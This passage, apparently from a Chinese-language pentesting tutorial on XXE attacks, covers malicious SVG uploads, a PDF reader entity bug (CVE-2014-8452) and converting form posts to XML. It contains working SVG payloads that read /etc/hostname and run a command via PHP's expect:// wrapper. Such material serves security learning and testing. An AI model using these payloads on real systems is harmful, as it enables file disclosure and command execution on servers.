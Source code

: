 例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，所以攻击者可以提交恶意SVG图像，从而进行XXE攻击。

```xml-dtd
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

您还可以尝试使用PHP “expect”包装器执行命令：

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

需要注意的是，读取文件或执行结果的第一行将出现在创建的图像内。因此，您需要能够访问SVG创建的图像。

#### PDF - File upload

Reader中的Javascript函数可用于从外部实体读取数据 (CVE-2014-8452)

这时从一篇论文（Polyglots: Crossing Origins by Crossing Formats）中得到的方法，论文里讨论了`XMLData.parse`的一个漏洞，可以使用外部实体并引用它们。

![img](XXE.assets/xxe-16673138295966-16673138399878.png)

影响有限，有以下原因：

- 仅限于同一 Origin
- HTML页面能打破xml结构
-  不支持动态实体
- 我曾想过使用utf-16 xml来避免破坏xml结构，但我没有成功。

但至少能读取到J JSON 文件。

#### Content-Type: From x-www-urlencoded to XML

如果 POST 请求接受XML格式的数据，您可以尝试利用该请求中的XXE。例如，如果正常请求包含以下内容：

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

